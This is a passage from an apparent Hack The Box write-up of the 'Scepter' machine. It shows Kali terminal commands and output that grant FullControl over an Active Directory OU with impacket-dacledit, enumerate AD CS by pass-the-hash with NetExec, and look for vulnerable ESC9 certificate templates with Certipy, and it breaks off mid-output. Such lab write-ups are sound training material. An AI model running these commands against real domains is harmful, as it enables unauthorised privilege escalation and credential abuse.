 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'newpassword'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250420-055548.bak
[*] DACL modified successfully!
```

## Foothold

## Active Directory Certificate Services (AD CS) Part 1

### ESC9: No Security Extensions

- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension)

Now that we had this assumption of a potential `Active Directory Certificate Services (AD CS)` attack vector, we checked for it using `NetExec` and found the name of the `Certificate Authority` called `scepter-DC01-CA`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ netexec ldap 10.129.248.205 -u 'd.baker' -H '18b5fb0d99e7a475316213c15b6f22ce' -M adcs
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
LDAP        10.129.248.205  389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
ADCS        10.129.248.205  389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.248.205  389    DC01             Found PKI Enrollment Server: dc01.scepter.htb
ADCS        10.129.248.205  389    DC01             Found CN: scepter-DC01-CA

```

With this information in our pockets it was time to see what `AD CS` could do for us. Therefore we fired up `Certipy` again to search for `vulnerable templates`. After a few seconds it detected `ESC9` as potential attack vector.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad find -username 'd.baker' -hashes :'18b5fb0d99e7a475316213c15b6f22ce' -dc-ip '10.129.248.205' -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'scepter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'scepter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'scepter-DC01-CA'
[*] Enumeration output:
Certificate Authorities
```